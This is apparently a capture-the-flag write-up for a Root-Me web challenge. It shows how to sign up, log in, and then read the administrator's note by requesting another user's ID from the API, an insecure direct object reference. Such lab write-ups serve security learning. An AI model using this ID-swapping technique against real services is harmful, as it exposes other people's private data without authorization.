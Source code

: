 1. [Open the task](http://challenge01.root-me.org:59088/)
2. Register an account via GUI or Insomnia

**POST request to http://challenge01.root-me.org:59088/api/signup**

### Request body:
```
{
	"username": "YOUR_USERNAME",
	"password": "YOUR_PASSWORD"
}

```

3. Log in to your account

**POST request to http://challenge01.root-me.org:59088/api/login**

### Request body:
```
{
	"username": "YOUR_USERNAME",
	"password": "YOUR_PASSWORD"
}

```

4. Go to information about user

**GET request to http://challenge01.root-me.org:59088/api/user**

### Response body:
```
{
	"note": "",
	"userid": 2,
	"username": "YOUR_USERNAME"
}
```

5. We can conclude that the flag is in the administrator's note, and its id is 1

**GET request to http://challenge01.root-me.org:59088/api/user/1**

### Response body:
```
{
	"note": "THE FLAG WILL BE HERE",
	"userid": 1,
	"username": "admin"
}
```
